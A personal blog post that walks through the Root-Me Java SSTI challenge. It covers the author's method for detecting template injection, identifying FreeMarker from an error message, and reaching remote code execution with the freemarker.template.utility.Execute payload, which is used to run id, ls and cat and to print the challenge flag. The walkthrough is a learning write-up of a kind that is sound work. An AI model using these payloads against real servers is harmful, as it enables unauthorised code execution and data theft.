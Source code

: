+++
title = "Deepening My SSTI Knowledge: From Study to a Root-Me RCE"
description = "A journey from studying the theory of Server-Side Template Injection (SSTI) to applying it to solve a Java/FreeMarker challenge on Root-Me."
date = "2025-09-10"
draft = false
tags = ["SSTI", "RootMe", "Cybersecurity", "Java", "FreeMarker", "RCE"]
+++

After my first taste of Server-Side Template Injection (SSTI) with the PicoCTF challenge, I was hooked. It was a relatively straightforward introduction, and it left me wanting to learn more. This post documents my journey of diving deeper into SSTI, from studying the theory to solving a more complex challenge on Root-Me.

---

## Broadening My SSTI Understanding

I started by consuming as much information as I could find on SSTI. Here are some of the resources I found most helpful:

*   [https://www.youtube.com/watch?v=x_1A9rCxREs](https://www.youtube.com/watch?v=x_1A9rCxREs)
*   [https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/](https://tcm-sec.com/find-and-exploit-server-side-template-injection-ssti/)
*   [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
*   [https://github.com/DiogoMRSilva/websitesVulnerableToSSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI) (last update is older than 3 years)
*   [https://www.pmnh.site/post/writeup_spring_el_waf_bypass/](https://www.pmnh.site/post/writeup_spring_el_waf_bypass/)
*   [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)
*   [https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf)
*   [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

### Key Takeaways

*   **SSTI vs. XSS:** While they might seem similar, SSTI is far more dangerous. It attacks the server's internals directly, often leading to Remote Code Execution (RCE), whereas Cross-Site Scripting (XSS) is a client-side vulnerability.
*   **Template Engines as a Feature:** Many applications, like wikis, blogs, and content management systems, intentionally expose template engines to users for rich functionality. The key is whether these engines are properly sandboxed.

### A Methodology for SSTI

I formulated a simple methodology for tackling potential SSTI vulnerabilities:

1.  **Detect:** Look for plaintext input that gets rendered with some processing. This is a prime candidate for SSTI.
2.  **Identify:**
    *   Probe with invalid syntax to trigger errors that might reveal the template engine.
    *   Use a decision tree of payloads to identify the engine.
    *   Use tools like Wappalyzer to identify the server's language and framework, which helps narrow down the possibilities.
3.  **Exploit:**
    *   **Read the Docs:** Once the engine is identified, read its documentation, paying close attention to security sections and built-in methods.
    *   **Explore:** Understand the environment and look for gadgets that can be abused.
    *   **Attack:** Build an attack vector and iterate until you find something that works. Escalate the attack to achieve a higher impact, like RCE.

---

## The Root-Me Challenge: Java SSTI

With a solid theoretical foundation, I was ready for a new challenge: [Java - Server-side Template Injection](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection).

### Detection and Identification

The challenge presented a simple form that took a `nickname` as input. I used Caido to replay the request and automate the testing of a list of common SSTI payloads from the [PayloadBox repo](https://github.com/payloadbox/ssti-payloads).

Here is the `curl` command for the request:
```bash
curl 'http://challenge01.root-me.org/web-serveur/ch41/check' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
  -H 'Accept: text/plain, */*; q=0.01' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: http://challenge01.root-me.org' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://challenge01.root-me.org/web-serveur/ch41/' \
  -H 'Cookie: _ga_SRYSKX09J7=GS2.1.s1757387996$o1$g1$t1757388045$j11$l0$h0; _ga=GA1.1.1521611932.1757387996' \
  -H 'Priority: u=0' \
  --data-raw 'nickname=hi'
```

Two payloads worked:

*   `%24%7B6*6%7D` (URL-decoded: `${6*6}`) resulted in `36`
*   `%23%7B3*3%7D` (URL-decoded: `#{3*3}`) resulted in `9`

This suggested a Java-based template engine. To confirm, I sent a payload with invalid syntax: `%24%7B%7B3*3%7D%7D`. The server responded with a detailed error message:

```json
{
    "timestamp": 1757388561239,
    "status": 500,
    "error": "Internal Server Error",
    "exception": "freemarker.core.ParseException",
    "message": "..."
}
```

The exception clearly identified the template engine as **FreeMarker**.

### Exploration and Exploitation

Now that I knew I was dealing with FreeMarker, I started researching ways to achieve RCE. I found that the `freemarker.template.utility.Execute` class could be used to run shell commands.

My first attempt to use it failed, likely due to a syntax error or issues with URL encoding:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

I took a step back and started with a simpler payload to confirm I could assign variables:

```freemarker
<#assign myVar = "Hello World"> ${myVar}
```

This worked! It returned `Hello World`. Now, I tried to instantiate the `Execute` class again:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex}
```

This returned a 200 OK response, but no output. This was a good sign. It meant the object was likely created successfully. I was expecting an object hash, but the empty response was still promising.

I then revisited my RCE payload, making sure the syntax was correct. I realized I had made a silly mistake in my first attempt: I had forgotten the closing curly brace `}`. With the corrected payload, I was able to execute the `id` command:

```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

The server responded with:

```
uid=1109(web-serveur-ch41) gid=1109(web-serveur-ch41) groupes=1109(web-serveur-ch41),100(users)
```

I had RCE!

### Getting the Flag

Now for the final steps:

1.  **List the files:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("ls -la") }
    ```

    This revealed a file named `SECRET_FLAG.txt`.

2.  **Read the flag:**

    ```freemarker
    <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
    ```

And there it was: **`B3wareOfT3mplat3Inj3ction`**

---

This challenge was a fantastic way to solidify my understanding of SSTI. It required a more methodical approach than the PicoCTF challenge and highlighted the importance of careful payload construction and error analysis.

---

## Related Posts

*   [My First SSTI Adventure: A PicoCTF Walkthrough](/post/picoctf-ssti-journey/)